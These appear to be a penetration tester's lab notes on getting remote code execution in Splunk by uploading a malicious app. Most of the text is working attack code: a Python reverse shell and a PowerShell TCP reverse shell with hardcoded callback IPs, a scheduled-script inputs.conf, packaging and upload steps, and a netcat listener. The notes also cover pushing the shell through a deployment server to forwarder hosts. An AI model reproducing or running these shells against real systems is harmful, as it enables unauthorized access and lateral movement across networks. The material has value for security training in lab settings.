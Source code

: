 # 13 splunk attacking

We can gain remote code execution on Splunk by creating a custom application to run Python, Batch, Bash, or PowerShell scripts.

## Abusing Built-In Functionality

1. Download shells

mkdir splunk\_shell cd splunk\_shell git clone https://github.com/0xjpuff/reverse\_shell\_splunk

The bin directory in this repo has examples for Python and PowerShell :

tree reverse\_shell\_splunk/ reverse\_shell\_splunk/ ├── README.md └── reverse\_shell\_splunk ├── bin │   ├── rev.py │   ├── run.bat │   └── run.ps1 └── default └── inputs.conf

cat inputs.conf

\[script://./bin/rev.py] disabled = 0\
interval = 10\
sourcetype = shell

\[script://.\bin\run.bat] disabled = 0 sourcetype = shell interval = 10

vi run.bat

@ECHO OFF PowerShell.exe -exec bypass -w hidden -Command "& '%\~dpn0.ps1'" Exit

2. Change IP on Linux and Windows shells

vi reverse\_shell\_splunk/reverse\_shell\_splunk/bin/rev.py

import sys,socket,os,pty

ip="10.10.14.15" port="443" s=socket.socket() s.connect((ip,int(port))) \[os.dup2(s.fileno(),fd) for fd in (0,1,2)] pty.spawn('/bin/bash')

vi reverse\_shell\_splunk/reverse\_shell\_splunk/bin/run.ps1

\#A simple and small reverse shell. Options and help removed to save space. #Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well. $client = New-Object System.Net.Sockets.TCPClient('10.10.14.139',443);$stream = $client.GetStream();\[byte\[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = (\[text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

3. Create malicious app

tar -cvzf updater.tar.gz reverse\_shell\_splunk/reverse\_shell\_splunk/ reverse\_shell\_splunk/reverse\_shell\_splunk/ reverse\_shell\_splunk/reverse\_shell\_splunk/default/ reverse\_shell\_splunk/reverse\_shell\_splunk/default/inputs.conf reverse\_shell\_splunk/reverse\_shell\_splunk/bin/ reverse\_shell\_splunk/reverse\_shell\_splunk/bin/run.ps1 reverse\_shell\_splunk/reverse\_shell\_splunk/bin/run.bat reverse\_shell\_splunk/reverse\_shell\_splunk/bin/rev.py

3. Upload the app

https://10.129.201.50:8000/en-US/manager/search/apps/local Install app from file Upload the application

4. Start a listner

sudo nc -lnvp 443 listening on \[any] 443 ...

If the compromised Splunk host is a deployment server, it will likely be possible to achieve RCE on any hosts with Universal Forwarders installed on them. To push a reverse shell out to other hosts, the application must be placed in the $SPLUNK\_HOME/etc/deployment-apps directory on the compromised host.

## LAB

https://10.129.239.161:8000/en-GB/account/login?return\_to=%2Fen-GB%2Fapp%2Flauncher%2Fhome

https://10.129.239.161:8000/en-GB/manager/launcher/apps/local

git clone https://github.com/0xjpuff/reverse\_shell\_splunk

vi reverse\_shell\_splunk/reverse\_shell\_splunk/bin/run.ps1

\#A simple and small reverse shell. Options and help removed to save space. #Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well. $client = New-Object System.Net.Sockets.TCPClient('10.10.14.139',443);$stream = $client.GetStream();\[byte\[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = (\[text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

tar -cvzf updater.tar.gz reverse\_shell\_splunk/reverse\_shell\_splunk/

reverse\_shell\_splunk/reverse\_shell\_splunk/ reverse\_shell\_splunk/reverse\_shell\_splunk/default/ reverse\_shell\_splunk/reverse\_shell\_splunk/default/inputs.conf reverse\_shell\_splunk/reverse\_shell\_splunk/bin/ reverse\_shell\_splunk/reverse\_shell\_splunk/bin/run.ps1 reverse\_shell\_splunk/reverse\_shell\_splunk/bin/run.bat reverse\_shell\_splunk/reverse\_shell\_splunk/bin/rev.py

\--> failed because of intermediate directory

mv reverse\_shell\_splunk/ todelete mv todelete/reverse\_shell\_splunk/ reverse\_shell\_splunk rmdir todelete/ mv reverse\_shell\_splunk/ shell/

sudo nc -lnvp 443

tar -cvzf updater2.tar.gz shell/ shell/ shell/default/ shell/default/inputs.conf shell/bin/ shell/bin/run.ps1 shell/bin/run.bat shell/bin/rev.py

sudo nc -lnvp 443

PS C:\Windows\system32> type c:\loot\flag.txt l00k\_ma\_no\_AutH!
